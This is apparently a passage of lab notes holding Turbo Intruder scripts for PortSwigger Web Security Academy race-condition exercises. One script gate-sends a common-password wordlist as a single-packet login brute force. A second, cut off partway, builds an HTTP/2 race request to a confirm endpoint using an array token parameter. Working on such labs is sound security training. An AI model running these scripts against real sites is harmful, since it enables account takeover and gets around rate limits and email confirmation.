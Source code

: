 ```python
    "monkey",
    "letmein",
    "shadow",
    "master",
    "666666",
    "qwertyuiop",
    "123321",
    "mustang",
    "123456",
    "password",
    "12345678",
    "qwerty",
    "123456789",
    "12345",
    "1234",
    "111111",
    "1234567",
    "dragon",
    "1234567890",
    "michael",
    "x654321",
    "superman",
    "1qaz2wsx",
    "baseball",
    "7777777",
    "121212",
    "000000"
]
    
    # queue a login request using each password from the wordlist
    # the 'gate' argument withholds the final part of each request until engine.openGate() is invoked
    for password in passwords:
        engine.queue(target.req, password, gate='1')
    
    # once every request has been queued
    # invoke engine.openGate() to send all requests in the given gate simultaneously
    engine.openGate('1')


def handleResponse(req, interesting):
    table.add(req)
```
script example on two endoints
```python
def queueRequests(target, wordlists):

    # as the target supports HTTP/2, use engine=Engine.BURP2 and concurrentConnections=1 for a single-packet attack
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )
    
    confReq='''POST /confirm?token[]= HTTP/2
Host: 0ac000510411a9db80eac639002a0031.web-security-academy.net
Cookie: phpsessionid=LZCN4rftE1NqqOWwZdJnyYN47W5DySMX
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Origin: https://0ac000510411a9db80eac639002a0031.web-security-academy.net
Referer: https://0ac000510411a9db80eac639002a0031.web-security-academy.net/confirm
```